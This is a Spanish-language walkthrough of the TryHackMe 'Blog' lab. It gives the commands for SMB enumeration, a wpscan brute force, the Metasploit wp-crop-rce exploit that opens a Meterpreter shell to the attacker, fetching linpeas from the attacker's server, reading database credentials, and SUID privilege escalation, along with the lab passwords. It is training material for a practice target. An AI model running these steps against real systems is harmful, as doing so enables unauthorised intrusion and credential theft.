# Blog

**Platform:** TryHackMe  
**Difficulty:** Medium  
**IP:** 10.10.229.124

---

## Información Inicial
- **Objetivo:** Obtener las dos banderas, una disponible desde un usuario y otra desde root  
- **Herramientas iniciales:** `nmap`, `wpscan`, `wget`, `smbclient`, `linpeas.sh`, `metasploit`, `mysql`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los servicios abiertos:
```bash 
nmap -sC -sV 10.10.229.124
```



Al estar abiertos los puertos 139 y 445, probamos a entrar de manera anónima y nos permite descargarnos tres archivos de BillySMB.




El archivo Alice-White-Rabbit.jpg contiene un fichero de texto en su interior, pero nada muy relevante ya que solo se trata de una pista.

Ahora vamos a tratar de investigar el sitio web para buscar vulnerabilidades. Para el que debemos de añadir el host blog.thm al fichero /etc/hosts.




Aparentemente no encontramos nada especial, simplemente un WordPress con un blog, pero si tratamos de utilizar la herramienta `WPScan` la cosa cambia.

Tratamos de descubrir toda la información posible y nos devuelve dos nombres de usuario que podemos usar para iniciar sesión en el panel de Wordpress (bjoel y kwheel):
```bash 
wpscan --url http://blog.thm --enumerate u,p,t,vp,vt
```


Conociendo estos nombre de usuario, lo que se me ocurre es realizar un ataque de fuerza bruta al loguin de WordPress aprovechando la herramienta WPScan, a la que no habría que meterle tantos parámetros como a Hydra.

```bash 
wpscan --url http://blog.thm/wp-login.php --usernames bjoel,kwheel --passwords /usr/share/wordlists/rockyou.txt
```




Efectivamente, hemos encontrado unas credenciales válidas:
`kwheel:cutiepie1`

Si accedemos al panel de control de WordPress no tenemos mucho que hacer, ya que nos bloquea si tratamos de crear alguna shell. Igualmente obtenemos la versión de WordPress que sería la 5.0.



En consecuencia, podemos buscar algún exploit de Metasploit en el que utilizar las credenciales.
Tras mirar varios de ellos y consultar por internet, el primero parece ser la mejor opción



Usaremos el exploit multi/http/wp-crop-rce, al cuál le debemos de ingresar algunos parámetros y cuando lo ejecutamos nos debería de devolver una shell de Meterpreter.

```bash 
set rhosts blog.thm
set lhost 10.8.29.132
set username kwheel
set password cutiepie1
```



Cuando ejecutamos el exploit nos devuelve la shell correctamente. Tratamos de investigar varios directorios personales y permisos para escala de privilegios pero no conseguimos nada.



La otra opción era subir el fichero linpeas.sh y descubrir vulnerabilidades a través de él, por lo que finalmente fue la mejor opción.
Creamos un servidor Python en la localización de nuestro fichero y lo descargamos desde la máquina víctima con Wget.

```bash 
python -m http.server 1234
```

```bash 
wget http://10.8.29.132:1234/linpeas.sh
```





Cuando se haya descargado por completo, debemos de otorgarle permisos de ejecución y ejecutarlo para comenzar a encontrar vulnerabilidades.
```bash 
chmod a+x linpeas.sh
./linpeas.sh
```
El programa nos muestra el fichero de configuración de WordPress donde obtenemos unas credenciales: `wordpressuser:LittleYellowLamp90!@`.



Si accedemos al fichero donde se han encontrado, en este se indica que son de MySQL, por lo que podremos acceder a ella y buscar alguna bandera.

```bash 
mysql -u wordpressuser -p
show databases;
use blog
show tables;
select * from wp_users
```



Encontramos credenciales pero estas son de WordPress, por lo que no nos son de mucha utilidad.
Si seguimos buscando en Linpeas, nos destaca otro fichero `/usr/sbin/checker`, el cuál contiene permisos SUID.



Si observamos el código con ltrace, vemos como comprueba la variable de entorno admin. Con esta herramienta no nos muestra mucho más, pero simplemente podemos probar a establecer la variable admin a 1 y ejecutar el programa.

```bash 
ltrace /usr/sbin/checker
export admin=1
```



De esta manera hemos conseguido hacernos usuario root, y con todos los permisos listaremos la bandera del directorio /root y buscaremos la del usuario, ya que nos dicen que busquemos mejor cuando consultamos el primer fichero.

```bash 
cat /root/root.txt
find / -type f -name user.txt 2>/dev/null
cat /media/usb/user.txt
```


